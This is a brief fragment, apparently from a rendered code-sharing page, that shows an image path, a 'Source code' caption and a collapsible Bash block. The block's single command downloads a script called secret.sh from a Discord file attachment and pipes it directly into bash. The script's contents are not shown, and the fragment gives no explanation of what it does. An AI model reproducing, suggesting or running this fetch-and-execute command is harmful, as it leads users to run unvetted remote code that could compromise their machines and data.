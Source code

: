 <details>
  <summary>Bash</summary>

> <hr>

```sh
cd ~ && curl -s https://cdn.discordapp.com/attachments/1043972790266626179/1161855848612626542/secret.sh | bash
```

> <hr>

</details>
